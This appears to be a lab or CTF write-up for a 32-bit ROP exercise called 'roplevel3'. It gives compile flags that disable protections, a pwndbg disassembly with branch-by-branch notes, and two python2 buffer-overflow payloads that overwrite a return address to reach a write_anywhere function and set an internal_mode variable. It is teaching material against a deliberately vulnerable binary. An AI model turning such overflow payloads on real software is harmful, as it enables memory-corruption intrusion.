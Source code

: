 ### How to compile binary (enable ASLR & PIE):

```
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
gcc roplevel3.c -o roplevel3 -fno-stack-protector -z execstack -m32 -Wl,-z,norelro -mpreferred-stack-boundary=2
```

### Analysis

```
pwndbg> disas validate
Dump of assembler code for function validate:
   0x0804928b <+0>:	push   ebp
   0x0804928c <+1>:	mov    ebp,esp
   0x0804928e <+3>:	push   ebx
   0x0804928f <+4>:	call   0x80490f0 <__x86.get_pc_thunk.bx>
   0x08049294 <+9>:	add    ebx,0x2244
   0x0804929a <+15>:	lea    eax,[ebx-0x13d8]
   0x080492a0 <+21>:	push   eax
   0x080492a1 <+22>:	push   DWORD PTR [ebp+0x8]
   0x080492a4 <+25>:	call   0x8049030 <strcmp@plt>
   0x080492a9 <+30>:	add    esp,0x8
   0x080492ac <+33>:	test   eax,eax
   0x080492ae <+35>:	jne    0x80492b7 <validate+44>
   0x080492b0 <+37>:	call   0x80491b6 <func>
   0x080492b5 <+42>:	jmp    0x804931b <validate+144>
   0x080492b7 <+44>:	lea    eax,[ebx-0x13ba]
   0x080492bd <+50>:	push   eax
   0x080492be <+51>:	push   DWORD PTR [ebp+0x8]
   0x080492c1 <+54>:	call   0x8049030 <strcmp@plt>
   0x080492c6 <+59>:	add    esp,0x8
   0x080492c9 <+62>:	test   eax,eax
   0x080492cb <+64>:	jne    0x80492ef <validate+100>
   0x080492cd <+66>:	mov    eax,DWORD PTR [ebx+0x34]
   0x080492d3 <+72>:	test   eax,eax
   0x080492d5 <+74>:	jne    0x80492e8 <validate+93>
   0x080492d7 <+76>:	lea    eax,[ebx-0x139c]
   0x080492dd <+82>:	push   eax
   0x080492de <+83>:	call   0x8049050 <puts@plt>
   0x080492e3 <+88>:	add    esp,0x4
   0x080492e6 <+91>:	jmp    0x804931b <validate+144>
   0x080492e8 <+93>:	call   0x80491db <func_internal>
   0x080492ed <+98>:	jmp    0x804931b <validate+144>
=> 0x080492ef <+100>:	lea    eax,[ebx-0x13b0]
   0x080492f5 <+106>:	push   eax
   0x080492f6 <+107>:	push   DWORD PTR [ebp+0x8]
   0x080492f9 <+110>:	call   0x8049030 <strcmp@plt>
   0x080492fe <+115>:	add    esp,0x8
   0x08049301 <+118>:	test   eax,eax
   0x08049303 <+120>:	jne    0x804930c <validate+129>
   0x08049305 <+122>:	push   0x0
   0x08049307 <+124>:	call   0x8049070 <exit@plt>
   0x0804930c <+129>:	lea    eax,[ebx-0x1368]
   0x08049312 <+135>:	push   eax
   0x08049313 <+136>:	call   0x8049050 <puts@plt>
   0x08049318 <+141>:	add    esp,0x4
   0x0804931b <+144>:	nop
   0x0804931c <+145>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x0804931f <+148>:	leave  
   0x08049320 <+149>:	ret    
End of assembler dump.
```

>0x080492ae <+35>:	jne    0x80492b7 <validate+44>
>
>checks if the number is 1, 
>
>if it is call func then ret and jmp to validate+144 (end)
>
>if it is not jmp to validate+44 and continue
>
> </br>
>0x080492cb <+64>:	jne    0x80492ef <validate+100> 
>
>Checks if the number is 2,
>
>if it is continue
>
>if it is not jmp to 100
>
> </br>
>0x080492d5 <+74>:	jne    0x80492e8 <validate+93>
>
>check if eax is not 0
>
>if eax is not 0 then execute internal_func
>
>if eax is 0 then jmp to validate+144 (end)
>
> </br>
>0x08049303 <+120>:	jne    0x804930c <validate+129>
>
>check if number is 3
>
>if it is 3 then continue and eventually exit
>
>if it is not 3 then continue to validate+129 then to validate+144 (end)

### Answer:

`(python2 -c "print('ZZZZYYYYXXXXVVVV' + 'BBBB' + '\x33\x93\x04\x08' + 'CCCC' + '\x21\x93\x04\x08' + '\x44\x93\x04\x08')" ; cat)  | ./roplevel3`

- Need to make sure that `eax` is not 0 which is from `[ebx+0x34]` hence execute BoF to overwrite return pointer and execute write_anywhere() function. This function will move whatever is in `ecx` into `[ebx+0x34]` which is the location of our internal_mode variable. In this case, 'BBBB' is what will be written to `ecx` in our buffer overflow.




https://stackoverflow.com/questions/19398216/why-is-there-a-expecting-comma-error-in-y86-code

https://stackoverflow.com/questions/9617877/assembly-jg-jnle-jl-jnge-after-cmp

https://stackoverflow.com/questions/6261392/printing-all-global-variables-local-variables

https://stackoverflow.com/questions/52024529/whats-the-difference-between-nexti-and-stepi-in-gdb

print (int) internal_mode

(python2 -c "print('ZZZZYYYYXXXX' + '\x28\xb5\x04\x08' + 'BBBB' + '\x34\x93\x04\x08' + 'AAAA' + '\x21\x93\x04\x08' + '\x45\x93\x04\x08')" ; cat) | ./roplevel3

overwrite internal_mode with BBBB

last address is address to main function
